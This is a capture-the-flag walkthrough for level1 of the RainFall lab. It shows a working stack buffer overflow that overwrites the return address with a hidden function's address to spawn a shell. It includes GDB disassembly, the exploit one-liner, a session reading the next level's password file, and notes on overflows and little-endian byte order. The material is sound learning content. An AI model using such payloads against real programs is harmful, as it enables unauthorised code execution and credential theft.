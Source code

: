 # Walkthrough

## Solution
```
$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
```

## Explanation

GDB:
info functions -> list all functions available

EIP: Instruction pointer, points to the next function to be executed

https://wiremask.eu/tools/buffer-overflow-pattern-generator/

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp      // substract 80 from esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux

There is a run function.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

We need to overflow the buffer, to overwrite EIP with the run function address.
With wiremask, we know that we segfault at character 76.
We are going to write 76 characters followed by the address of run.


python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)

We need to use cat, so that the program wait for an input from stdin
-------------------------------

level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
ls
ls: cannot open directory .: Permission denied
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77








/*
Stack based buffer overflows are one of the most common vulnerabilities. Found today. It affects any
function that copies input to memory without doing bounds checking. For example:
Strcpy(),memcpy(),gets(),etc…..
What is a buffer overflow? A buffer overflow occurs when a function copies data into a buffer without
doing bounds checking. So if the source data size is larger than the destination buffer size this data will
overflow the buffer towards higher memory address and probably overwrite previous data on stack.


https://0xrick.github.io/binary-exploitation/bof3/

Transform the address to little endian because in general the stack goes from the top of the memory to the bottom,
thus the "data" you use is always written from low to high
0A 0B 0C 0D
 |	|  |  |    Memory:
 |  |  |   --> 0D (a)
 |  |   -----> 0C (a+1)
 |   --------> 0B (a+2)
  -----------> 0A (a+3)
  Little endian


*/